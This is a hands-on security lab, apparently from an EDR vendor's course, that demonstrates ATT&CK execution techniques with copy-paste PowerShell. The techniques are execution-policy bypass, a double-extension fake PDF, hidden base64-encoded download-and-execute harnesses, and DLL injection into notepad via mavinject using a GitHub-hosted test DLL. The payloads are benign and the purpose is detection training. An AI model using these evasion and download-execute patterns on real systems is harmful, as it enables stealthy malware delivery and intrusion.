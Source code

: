 ```yaml
---
title: ATT&CK - Execution Phase
description: Demonstrate the execution phase of an attack
author: Chris Gerritz, Datto
created: 04/07/2025
achievements:
duration: 20
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- live.sysinternals.com/psexec.exe
- github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. 

Lab 2 will demonstrate a post-compromise execution phase of an attack where initial exploits have already granted privileged access to the target system and now you need to execute some commands and download/execute additional malware payloads.

Typically, the 'Initial Execution' will be a very small command called a download harness and this is executed in one of two ways:
1. Via an exploit of a vulnerable application
2. Via an internal user through social engineering

In order to grant the attacker additional functionality such as recon, lateral movement or ransomware staging, they will need to inject a more feature rich malware type called a Remote Access Tool (aka a "RAT") following that initial execution. This follow on execution will utilize administrative commands which we can detect during behavioral monitoring.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the initial steps of an attack that uses staged malware
2. Demonstrate some execution techniques to get initial trojans or follow-on malware payloads to run

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Copy and paste this command into the terminal:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

	```
-----
## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 



### 1. Double Extension Execution
> *Initial execution is often through a social engineering attack. This first technique hides an executable as a pdf file. The hope is the user will download this file and double click it to see what it is. When they do, our trojan will execute and give us a (simulated) callback where we can tell it to run additional commands.*

Execute a file with a **Double Extension**. 
- MITRE ATT&CK Technique: [ATT&CK T1204.002 - Execution - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002)
- MITRE ATT&CK Technique: [ATT&CK T1036.007 - Evasion - Masquerading: Double File Extension](https://attack.mitre.org/techniques/T1036/007)
- Copy and paste this command into the terminal:
	```PowerShell
	# Double Extension
	Write-Host -ForegroundColor Cyan "Initiating a T1204.002 - Malicious File Extension with Double Extension evasion"
	$MalwarePath = "C:\Windows\System32\calc.exe"
	$TrojanPath = "$Env:USERPROFILE\Desktop\freemoney.pdf.exe"

	Copy-Item -Path $MalwarePath -Destination $TrojanPath -Force
	Get-Item $TrojanPath
	Write-Host -ForegroundColor Cyan "Go ahead and double click freemoney.pdf on your desktop"
	```
- Next, go to your desktop and double click freemoney.pdf and see what happens.


### 2. Powershell Download Harness
> *The following method is used by some malware to download and execute an additional file using Powershell. This is the simplest way to do this and often used legitimatly so the technique can blend the malicious action in with existing noise produced by admins.*

Execute a simple **Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Powershell Download Hardness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Download Harness"
	$url = "https://live.sysinternals.com/psexec.exe"
	$filename = "$env:TEMP\bad.exe"

	$cmd = "(new-object System.Net.WebClient).DownloadFile('$url', '$filename'); Start-Sleep -m $n"
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "Powershell.exe -command '$cmd'"
	Powershell.exe -command $cmd

	Get-Item $filename
	```


### 3. Hidden & Encoded Powershell Download Harness
> *Most attackers aren't going to want you seeing the command or the powershell window poping up so they will use obfuscation and stealth techniques with this.*

Execute it again, but this time as a **Hidden & Encoded Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- MITRE ATT&CK Technique: [ATT&CK T1027 - Evasion - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027)
- Copy and paste this command into the terminal:
	```PowerShell
	# Encoded and Hidden Powershell Download Harness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Encoded and hidden Download Harness"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Cmd)
	)
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "powershell.exe -win H -NoP -e '$EncodedCommand'"
	powershell.exe -win H -NoP -e $EncodedCommand
	```

w> This will hide your browser, you may need to open a new browser after performing this command.


### 4. System Binary Proxy Execution
> *One method to evade antivirus is to force a legitimate system application to run the attacker's code/malware on the attacker's behalf. A common method is to inject the malware's code as a library into the memory of a system process.*
>
> *The method we'll demonstrate today is a Microsoft utility called `mavinject`.  Mavinject.exe is the **Microsoft Application Virtualization Injector**, a Windows utility that can inject code into external processes as part of Microsoft Application Virtualization (App-V). This utility is installed by default on most modern Windows versions but shouldn't really be used unless App-V is in use.*

1. Use mavinject.exe to perform a **System Binary Proxy Execution** technique
- [ATT&CK T1218.013 - Defense Evasion - Signed Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/013)
- [ATT&CK T1055.001 - Defense Evasion - Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001)
- Copy and paste this command into the terminal:
	```PowerShell
	$n = 1000+$(Get-Random -Max 999)
	# Signed Binary Proxy Execution w/ mavinject.exe
	Write-Host -ForegroundColor Cyan "Initiating a T1218.013 - Signed Binary Proxy Execution using mavinject.exe"
	$malwareURL = "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll"
	# start and inject into notepad or calc
	$targetProcessName = "notepad"
	$cmd = @"
		`$targetProcessId = (Start-Process $targetProcessName -PassThru).id
		Invoke-WebRequest $malwareURL -OutFile "$env:temp\T1055.001.dll"
		mavinject `$targetProcessId /INJECTRUNNING $env:temp\T1055.001.dll
		Start-Sleep -m $n
	"@
	powershell.exe -nop -command $cmd
	```

	s> If you are successful, the code we are injecting will force notepad to run a popup that says "Locked and Loaded".